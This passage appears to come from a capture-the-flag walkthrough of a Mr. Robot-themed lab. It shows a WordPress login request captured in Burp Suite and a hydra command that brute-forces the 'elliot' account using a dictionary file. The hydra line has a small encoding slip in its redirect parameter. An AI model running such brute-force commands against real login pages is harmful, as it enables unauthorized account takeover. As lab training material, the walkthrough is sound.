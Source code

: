 ![alt text](files/burpsuite.png "Burp Suite")

The interesting part of this is:

````commandline
log=test&pwd=testpass&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.59.31%2Fwp-admin%2F&testcookie=1
````

So let's use hydra to bruteforce:

````commandline
hydra -l elliot -P fsocity.dic $IP_TARGET http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2F$IP_TARGET2Fwp-admin%2F&testcookie=1:S=302"
...
````

Okay, this also take ages!
